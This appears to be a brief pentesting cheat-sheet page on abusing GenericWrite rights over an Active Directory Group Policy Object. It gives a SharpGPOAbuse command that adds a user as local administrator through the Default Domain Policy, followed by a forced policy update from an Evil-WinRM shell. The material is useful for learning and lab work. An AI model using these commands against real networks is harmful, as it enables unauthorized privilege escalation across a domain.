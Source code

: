 # GenericWrite GPO

If we have GenericWrite to a GPO.&#x20;

{% embed url="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlZur7K7xtsvD24g4uC0i%2Fuploads%2FEVg9KZ26uucgGEy5svcE%2F2022-07-21_16-54.png?alt=media&token=1c1dffc6-8506-4059-9d04-e3f55482c01c" %}

We can exploit this by using the SharpGPOAbuse.exe&#x20;

```
 ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
```

Them we force the update.&#x20;

```
*Evil-WinRM* PS C:\Users\anirudh\Desktop> gpupdate /force
```

{% embed url="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlZur7K7xtsvD24g4uC0i%2Fuploads%2FieaEwzgylV6bUw55o0Kc%2F2022-07-21_17-07.png?alt=media&token=6a7c6548-e808-460c-928a-e1380c1ad0ae" %}
